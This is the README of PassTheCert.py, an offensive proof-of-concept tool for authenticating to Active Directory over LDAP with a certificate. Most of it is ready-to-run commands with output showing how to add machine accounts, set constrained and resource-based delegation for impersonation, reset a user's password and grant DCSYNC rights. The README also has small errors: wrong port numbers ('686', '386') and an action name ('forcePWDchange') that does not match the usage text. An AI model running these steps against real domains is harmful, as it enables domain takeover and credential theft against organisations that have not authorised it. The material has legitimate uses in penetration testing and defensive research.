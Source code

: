 PassTheCert.py
==============

This POC implements LDAP certificate authentication for two impacket scripts:
[addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
and [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py).
You can perform LDAP certificate authentication both on port 686 and 389 (via a
StarTLS command). Please note that you need a functional LDAPS service on the
targeted domain controller to successfully use StartTLS on the LDAP port.

More information in the [accompanying blog post](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html).

If you use [Certipy](https://github.com/ly4k/Certipy) to retrieve certificates, you can extract key and cert from the pfx by using:

```console
$ certipy cert -pfx user.pfx -nokey -out user.crt
$ certipy cert -pfx user.pfx -nocert -out user.key
```

Usage
-----

```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

usage: passthecert.py [-h] [-debug] [-port {389,636}]
                      [-action [{add_computer,del_computer,modify_computer,read_rbcd,write_rbcd,remove_rbcd,flush_rbcd,modify_user,whoami}]]
                      [-target sAMAccountName] [-new-pass [Password]] [-elevate] [-baseDN DC=test,DC=local]
                      [-computer-group CN=Computers] [-domain test.local] [-domain-netbios NETBIOSNAME]
                      [-computer-name COMPUTER-NAME$] [-computer-pass password]
                      [-delegated-services cifs/srv01.domain.local,ldap/srv01.domain.local] [-delegate-to DELEGATE_TO]
                      [-delegate-from DELEGATE_FROM] [-dc-host hostname] [-dc-ip ip] -crt user.crt -key user.key

Manage domain computers and perform RBCD attack via LDAP certificate authentication

options:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -port {389,636}       Destination port to connect to. LDAPS (via StartTLS) on 386 or LDAPS on 636.

Action:
  -action [{add_computer,del_computer,modify_computer,read_rbcd,write_rbcd,remove_rbcd,flush_rbcd,modify_user,whoami}]

Manage User:
  -target             sAMaccountnames   sAMAccountName of user to target.
  -new-pass           [Password]        New password of target.
  -elevate                              Grant target account DCSYNC rights

Manage Computer:
  -baseDN             DC=test,DC=local  Set baseDN for LDAP.If omitted, the domain part (FQDN) specified in the account parameter will be used.
  -computer-group     CN=Computers      Group to which the account will be added.If omitted, CN=Computers will be used,
  -domain             test.local        Target domain fqdn
  -domain-netbios     NETBIOSNAME       Domain NetBIOS name. Required if the DC has multiple domains.
  -computer-name      COMPUTER-NAME$    Name of computer to add.If omitted, a random DESKTOP-[A-Z0-9]{8} will be used.
  -computer-pass      password          Password to set to computer. If omitted, a random [A-Za-z0-9]{32} will be used.
  -delegated-services cifs/srv01.domain.local,ldap/srv01.domain.local Services to configure in constrained delegation to configure to the new computer (no space in the list)

RBCD attack:
  -delegate-to        DELEGATE_TO       Target computer account the attacker has at least WriteProperty to
  -delegate-from      DELEGATE_FROM     Attacker controlled machine account to write on the msDS-Allo[...] property (only when using `-action write`)

Authentication:
  -dc-host hostname     Hostname of the domain controller to use. If omitted, the domain part (FQDN) specified in the account
                        parameter will be used
  -dc-ip ip             IP of the domain controller to use. Useful if you can't translate the FQDN.
  -crt user.crt         User's certificate
  -key user.key         User's private key

```

Actions
-------
* Manage Computer
  * `add_computer`: Add a computer to the domain
  * `del_computer`: Delete a computer from the domain
  * `modify_computer`: Modify the password of the computer

* Manage User
  * `forcePWDchange` : Modify the password of the user

* Constrained delegation attack
  * `add_computer -delegated-services`: Add a computer configured with constrained delegated services store in `msDS-AllowedToDelegateTo` new computer's attributes.

* RBCD attack
  * `read_rbcd`: Read `msDS-AllowedToActOnBehalfOfOtherIdentity` and resolve SIDs to `sAMaccountnames`
  * `write_rbcd`: Write new SIDs to `the msDS-AllowedToActOnBehalfOfOtherIdentity`
  * `remove_rbcd`: Remove specific entries
  * `flush_rbcd`: Flush all entries

* Misc
  * `whoami`: Return the user represented by the certificate

Examples
--------

Create a computer via LDAPS:

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account DESKTOP-CKDRXFUX$ with password dzy3pjZqEH6f4Igql5dp4I5Dx8uA4PrV.
```

Create a computer via LDAPS with custom name/password:

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -computer-pass SheSellsSeaShellsOnTheSeaShore
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account OFFSECMACHINE$ with password SheSellsSeaShellsOnTheSeaShore.
```

Create a computer via LDAPS with custom name and with constrained delegated services configured (cifs and ldap over SRV-MAIL.domain.local):

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -delegated-services cifs/SRV-MAIL.domain.local,ldap/SRV-MAIL.domain.local
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[+] Adding constrained delegations to the new computer object: cifs/SRV-MAIL.domain.local,ldap/SRV-MAIL.domain.local
[*] Successfully added machine account OFFSECMACHINE$ with password kUwdbHeuTw64QvaLzUYHrjfgE7hrRigS
```

Add a delegation right via StartTLS on port 389:

```console
$ python3 passthecert.py -action write_rbcd -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -port 389 -delegate-to DESKTOP-CKDRXFUX$ -delegate-from SRV-MAIL$
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] SRV-MAIL$ can now impersonate users on DESKTOP-CKDRXFUX$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     SRV-MAIL$    (S-1-5-21-XXXXXXXXX-YYYYYYYYYY-WWWWWWWW-1109)
```

Change a password of a user 

```console
$ python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -target user_sam -new-pass
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Successfully changed kpayne password to: ZqIrfZdt02OIq5Ek0ZZPcQKRWKEMEOKB
```

Elevate a user fpr DCSYNC

```console
$ python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -target user_sam -elevate
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Granted user 'user_sam' DCSYNC rights!
```


Credits
-------

- [JaGoTu (@jagotu)](https://twitter.com/jagotu) for [addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
- [Remi Gascou (@podalirius_)](https://twitter.com/podalirius_) and [Charlie Bromberg (@_nwodtuhs)](https://twitter.com/_nwodtuhs) for [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py)
* [Impacket](https://github.com/SecureAuthCorp/impacket) by [SecureAuth](https://www.secureauth.com/)
